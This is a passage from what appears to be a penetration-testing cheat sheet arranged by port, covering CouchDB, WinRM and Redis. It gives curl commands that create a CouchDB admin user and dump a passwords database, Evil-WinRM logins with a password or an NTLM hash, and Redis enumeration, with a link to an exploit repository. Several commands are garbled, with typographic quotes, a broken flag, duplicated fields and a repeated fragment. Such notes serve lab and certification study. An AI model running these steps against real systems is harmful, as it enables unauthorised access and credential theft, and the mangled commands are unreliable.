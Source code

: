 {% tab title="Create User" %}
```
curl -X PUT ‘http://localhost:5984/_users/org.couchdb.user:chenny' — data-binary ‘{ “type”: “user”, “name”: “chenny”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’
```


{% endtab %}

{% tab title="Dump DB and Passwords" %}
```
curl http://127.0.0.1:5984/passwords/_all_docs?include_docs=true -u chenny:-Xpassword <ds/_all_docs?include_docs=true -u chenny:-Xpassword
curl -X GET http://user:passwords@localhost:5984/passwords
```


{% endtab %}
{% endtabs %}

## 5985/5986 - WinRM

* If 5985 is open. WinRM is running
* If 5986 is closed, then WinRM is only configed to accept HTTP connections and encryption is not enabled.

```
PS> Invoke-Command -ComputerName TARG ET -ScriptBlock { dir c:\ }
PS> EnablePSRemoting -Force
```

### [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

```
gem install evil-winrm
evil-winrm -i 10.11.1.111 -u Administrator -p 'password1'
evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder
```

## 6379 Redis

Enumerate:

* ```
  $ nmap -p6379 --script redis-info $ip
  ```

Client:

* ```
  $ redis-cli -h $ip
  ```

### [Redis-Server-Exploit](https://github.com/iw00tr00t/Redis-Server-Exploit)

